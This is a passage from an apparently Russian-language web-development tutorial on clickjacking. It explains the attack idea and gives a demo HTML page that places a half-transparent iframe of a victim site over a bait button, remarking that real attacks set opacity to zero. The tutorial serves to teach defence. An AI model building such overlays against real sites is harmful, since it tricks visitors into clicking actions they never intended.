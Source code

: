 # Атака Clickjacking и защита от неё

Атака "кликджекинг" (англ. Clickjacking) позволяет хакеру выполнить клик на сайте-жертве *от имени посетителя*.

В русском языке встречается дословный перевод термина clickjacking: "угон клика". Так же применительно к clickjacking-атаке можно встретить термины "перекрытие iframe" и "подмена пользовательского интерфейса".

Кликджекингу подверглись в своё время Twitter, Facebook , PayPal, YouTube и многие другие сайты. Сейчас, конечно, они уже защищены.

## Идея атаки

В целом идея очень проста.

Вот как выглядел "угон клика" пользователя, который зарегистрирован на Facebook:

1. На вредоносной странице пользователю подсовывается безобидная ссылка (скажем, что-то скачать, "разбогатеть сейчас", посмотреть ролик или просто перейти по ссылке на интересный ресурс).
2. Поверх этой заманчивой ссылки помещен прозрачный iframe со страницей facebook.com, так что кнопка "Like" находится чётко над ней.
3. Кликая на ссылку, посетитель на самом деле нажимает на эту кнопку.

## Демо

Вот пример вредоносной страницы (для наглядности `iframe` -- полупрозрачный):

```html run height=120 no-beautify
<style>
iframe { /* iframe с сайта-жертвы */
  width: 400px;
  height: 100px;
  position: absolute;
  top:0; left:-20px;
*!*
  opacity: 0.5; /* в реальности opacity:0 */
*/!*
  z-index: 1;
}
</style>

<div>Нажмите, чтобы разбогатеть сейчас:</div>

<!-- URL в реальности - с другого домена (атакуемого сайта) -->
*!*
<iframe src="facebook.html"></iframe>

<button>Жми тут!</button>
 */!*

<div>..И всё получится (хе-хе, у меня, злого хакера, получится)!</div>
```
